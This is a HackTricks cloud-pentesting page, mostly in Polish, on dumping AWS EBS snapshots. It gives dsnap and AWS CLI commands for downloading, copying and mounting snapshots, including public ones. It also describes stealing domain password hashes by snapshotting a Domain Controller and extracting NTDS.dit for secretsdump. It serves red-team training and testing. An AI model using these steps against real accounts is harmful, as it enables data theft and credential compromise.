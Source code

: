 # AWS - EBS Snapshot Dump

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## Sprawdzanie migawki lokalnie
```bash
# Install dependencies
pip install 'dsnap[cli]'
brew install vagrant
brew install virtualbox

# Get snapshot from image
mkdir snap_wordir; cd snap_workdir
dsnap init
## Download a snapshot of the volume of that instance
## If no snapshot existed it will try to create one
dsnap get <instance-id>
dsnap --profile default --region eu-west-1 get i-0d706e33814c1ef9a
## Other way to get a snapshot
dsnap list #List snapshots
dsnap get snap-0dbb0347f47e38b96 #Download snapshot directly

# Run with vagrant
IMAGE="<download_file>.img" vagrant up #Run image with vagrant+virtuabox
IMAGE="<download_file>.img" vagrant ssh #Access the VM
vagrant destroy #To destoy

# Run with docker
git clone https://github.com/RhinoSecurityLabs/dsnap.git
cd dsnap
make docker/build
IMAGE="<download_file>.img" make docker/run #With the snapshot downloaded
```
{% hint style="danger" %}
**Uwaga** że `dsnap` nie pozwoli ci na pobranie publicznych migawków. Aby to obejść, możesz skopiować migawkę do swojego osobistego konta i pobrać ją:
{% endhint %}

{% code overflow="wrap" %}
```bash
# Copy the snapshot
aws ec2 copy-snapshot --source-region us-east-2 --source-snapshot-id snap-09cf5d9801f231c57 --destination-region us-east-2 --description "copy of snap-09cf5d9801f231c57"

# View the snapshot info
aws ec2 describe-snapshots --owner-ids self --region us-east-2

# Download the snapshot. The ID is the copy from your account
dsnap --region us-east-2 get snap-027da41be451109da

# Delete the snapshot after downloading
aws ec2 delete-snapshot --snapshot-id snap-027da41be451109da --region us-east-2
```
{% endcode %}

Aby uzyskać więcej informacji na temat tej techniki, sprawdź oryginalne badania w [https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/](https://rhinosecuritylabs.com/aws/exploring-aws-ebs-snapshots/)

Możesz to zrobić za pomocą Pacu, używając modułu [ebs\_\_download\_snapshots](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#ebs__download_snapshots)

## Sprawdzanie migawki w AWS

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id snap-0b49342abd1bdcb89
```
{% endcode %}

**Zamontuj go w VM EC2 pod swoją kontrolą** (musi być w tym samym regionie co kopia zapasowa):

Krok 1: Należy utworzyć nową wolumin o preferowanym rozmiarze i typie, przechodząc do EC2 –> Woluminy.

Aby móc wykonać tę akcję, wykonaj następujące polecenia:

* Utwórz wolumin EBS do podłączenia do instancji EC2.
* Upewnij się, że wolumin EBS i instancja są w tej samej strefie.

Krok 2: Należy wybrać opcję "dołącz wolumin", klikając prawym przyciskiem myszy na utworzonym woluminie.

Krok 3: Należy wybrać instancję z pola tekstowego instancji.

Aby móc wykonać tę akcję, użyj następującego polecenia:

* Dołącz wolumin EBS.

Krok 4: Zaloguj się do instancji EC2 i wyświetl dostępne dyski, używając polecenia `lsblk`.

Krok 5: Sprawdź, czy wolumin ma jakieś dane, używając polecenia `sudo file -s /dev/xvdf`.

Jeśli wynik powyższego polecenia pokazuje "/dev/xvdf: data", oznacza to, że wolumin jest pusty.

Krok 6: Sformatuj wolumin do systemu plików ext4, używając polecenia `sudo mkfs -t ext4 /dev/xvdf`. Alternatywnie możesz również użyć formatu xfs, używając polecenia `sudo mkfs -t xfs /dev/xvdf`. Należy pamiętać, że powinieneś użyć albo ext4, albo xfs.

Krok 7: Utwórz katalog według własnego wyboru, aby zamontować nowy wolumin ext4. Na przykład możesz użyć nazwy "newvolume".

Aby móc wykonać tę akcję, użyj polecenia `sudo mkdir /newvolume`.

Krok 8: Zamontuj wolumin w katalogu "newvolume", używając polecenia `sudo mount /dev/xvdf /newvolume/`.

Krok 9: Zmień katalog na katalog "newvolume" i sprawdź miejsce na dysku, aby zweryfikować montaż woluminu.

Aby móc wykonać tę akcję, użyj następujących poleceń:

* Zmień katalog na `/newvolume`.
* Sprawdź miejsce na dysku, używając polecenia `df -h .`. Wynik tego polecenia powinien pokazać wolne miejsce w katalogu "newvolume".

Możesz to zrobić z Pacu, używając modułu `ebs__explore_snapshots`.

## Sprawdzanie migawki w AWS (używając cli)

{% code overflow="wrap" %}
```bash
aws ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id <snap-0b49342abd1bdcb89>

# Attach new volume to instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>

# mount the snapshot from within the VM

sudo file -s /dev/sdh
/dev/sdh: symbolic link to `xvdh'

sudo file -s /dev/xvdh
/dev/xvdh: x86 boot sector; partition 1: ID=0xee, starthead 0, startsector 1, 16777215 sectors, extended partition table (last)\011, code offset 0x63

lsblk /dev/xvdh
NAME     MAJ:MIN RM  SIZE RO TYPE MOUNTPOINT
xvdh     202:112  0    8G  0 disk
├─xvdh1  202:113  0  7.9G  0 part
├─xvdh14 202:126  0    4M  0 part
└─xvdh15 202:127  0  106M  0 part

sudo mount /dev/xvdh1 /mnt

ls /mnt
```
{% endcode %}

## Shadow Copy

Każdy użytkownik AWS posiadający uprawnienie **`EC2:CreateSnapshot`** może ukraść hashe wszystkich użytkowników domeny, tworząc **snapshot Kontrolera Domeny**, montując go do instancji, którą kontroluje, i **eksportując plik NTDS.dit oraz rejestr SYSTEM** do użycia z projektem secretsdump Impacket.

Możesz użyć tego narzędzia do automatyzacji ataku: [https://github.com/Static-Flow/CloudCopy](https://github.com/Static-Flow/CloudCopy) lub możesz użyć jednej z wcześniejszych technik po utworzeniu snapshotu.

## References

* [https://devopscube.com/mount-ebs-volume-ec2-instance/](https://devopscube.com/mount-ebs-volume-ec2-instance/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
